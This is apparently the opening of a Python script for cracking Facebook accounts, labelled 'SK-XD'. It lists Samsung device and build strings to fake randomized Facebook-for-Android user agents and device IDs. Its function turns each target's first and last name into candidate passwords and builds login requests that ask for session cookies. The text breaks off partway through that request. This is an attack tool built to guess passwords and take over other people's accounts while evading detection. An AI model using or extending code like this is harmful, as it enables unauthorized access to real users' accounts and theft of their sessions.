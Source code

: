 xxxxx=("GT-1015","GT-1020","GT-1030","GT-1035","GT-1040","GT-1045","GT-1050","GT-1240","GT-1440","GT-1450","GT-18190","GT-18262","GT-19060I","GT-19082","GT-19083","GT-19105","GT-19152","GT-19192","GT-19300","GT-19505","GT-2000","GT-20000","GT-200s","GT-3000","GT-414XOP","GT-6918","GT-7010","GT-7020","GT-7030","GT-7040","GT-7050","GT-7100","GT-7105","GT-7110","GT-7205","GT-7210","GT-7240R","GT-7245","GT-7303","GT-7310","GT-7320","GT-7325","GT-7326","GT-7340","GT-7405","GT-7550 5GT-8005","GT-8010","GT-81","GT-810","GT-8105","GT-8110","GT-8220S","GT-8410","GT-9300","GT-9320","GT-93G","GT-A7100","GT-A9500","GT-ANDROID","GT-B2710","GT-B5330","GT-B5330B","GT-B5330L","GT-B5330ZKAINU","GT-B5510","GT-B5512","GT-B5722","GT-B7510","GT-B7722","GT-B7810","GT-B9150","GT-B9388","GT-C3010","GT-C3262","GT-C3310R","GT-C3312","GT-C3312R","GT-C3313T","GT-C3322","GT-C3322i","GT-C3520","GT-C3520I","GT-C3592","GT-C3595","GT-C3782","GT-C6712","GT-E1282T","GT-E1500","GT-E2200","GT-E2202","GT-E2250","GT-E2252","GT-E2600","GT-E2652W","GT-E3210","GT-E3309","GT-E3309I","GT-E3309T","GT-G530H","GT-G930F","GT-H9500","GT-I5508","GT-I5801","GT-I6410","GT-I8150","GT-I8160OKLTPA","GT-I8160ZWLTTT","GT-I8258","GT-I8262D","GT-I8268""GT-I8505","GT-I8530BAABTU","GT-I8530BALCHO","GT-I8530BALTTT","GT-I8550E","GT-I8750","GT-I900","GT-I9008L","GT-I9080E","GT-I9082C","GT-I9082EWAINU","GT-I9082i","GT-I9100G","GT-I9100LKLCHT","GT-I9100M","GT-I9100P","GT-I9100T","GT-I9105UANDBT","GT-I9128E","GT-I9128I","GT-I9128V","GT-I9158P","GT-I9158V","GT-I9168I","GT-I9190","GT-I9192","GT-I9192I","GT-I9195H","GT-I9195L","GT-I9250","GT-I9300","GT-I9300I","GT-I9301I","GT-I9303I","GT-I9305N","GT-I9308I","GT-I9500","GT-I9505G","GT-I9505X","GT-I9507V","GT-I9600","GT-M5650","GT-N5000S","GT-N5100","GT-N5105","GT-N5110","GT-N5120","GT-N7000B","GT-N7005","GT-N7100","GT-N7100T","GT-N7102","GT-N7105","GT-N7105T","GT-N7108","GT-N7108D","GT-N8000","GT-N8005","GT-N8010","GT-N8020","GT-N9000","GT-N9505","GT-P1000CWAXSA","GT-P1000M","GT-P1000T","GT-P1010","GT-P3100B","GT-P3105","GT-P3108","GT-P3110","GT-P5100","GT-P5110","GT-P5200","GT-P5210","GT-P5210XD1","GT-P5220","GT-P6200","GT-P6200L","GT-P6201","GT-P6210","GT-P6211","GT-P6800","GT-P7100","GT-P7300","GT-P7300B","GT-P7310","GT-P7320","GT-P7500D","GT-P7500M","SAMSUNG","LMY4","LMY47V","MMB29K","MMB29M","LRX22C","LRX22G","NMF2","NMF26X","NMF26X;","NRD90M","NRD90M;","SPH-L720","IML74K","IMM76D","JDQ39","JSS15J","JZO54K","KOT4","KOT49H","KOT4SM-T310","KTU84P","SM-A500F","SM-A500FU","SM-A500H","SM-G532F","SM-G900F","SM-G920F","SM-G930F","SM-G935","SM-G950F","SM-J320F","SM-J320FN","SM-J320H","SM-J320M","SM-J510FN","SM-J701F","SM-N920S","SM-T111","SM-T230","SM-T231","SM-T235","SM-T280","SM-T311","SM-T315","SM-T525","SM-T531","SM-T535","SM-T555","SM-T561","SM-T705","SM-T805","SM-T820")
def api(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write('\r\r\033[1;37m [SK-XD] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(' ')[0]
                        try:
                                ln = names.split(' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (Linux; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/en_US;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',